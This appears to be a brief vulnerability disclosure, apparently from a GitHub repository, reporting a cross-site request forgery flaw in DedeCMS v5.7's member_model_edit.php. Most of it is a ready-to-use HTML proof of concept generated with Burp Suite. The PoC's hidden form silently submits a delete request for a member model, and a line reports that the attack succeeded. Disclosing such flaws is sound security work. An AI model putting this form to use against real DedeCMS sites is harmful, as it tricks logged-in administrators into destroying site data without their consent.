 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/member_model_edit.php
![1](https://github.com/wangxinbixu888/cms/assets/164822067/a35f47da-a37f-4b17-ba1c-be0350a71f2f)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/member_model_edit.php" method="POST">
      <input type="hidden" name="job" value="yes" />
      <input type="hidden" name="dopost" value="delete" />
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="imageField1&#46;x" value="26" />
      <input type="hidden" name="imageField1&#46;y" value="14" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```
![2](https://github.com/wangxinbixu888/cms/assets/164822067/2eea3c7e-6ce5-4de5-81df-c8d832a3fb69)



successed

![3](https://github.com/wangxinbixu888/cms/assets/164822067/63c3d156-ed48-44b0-80af-62963402f600)
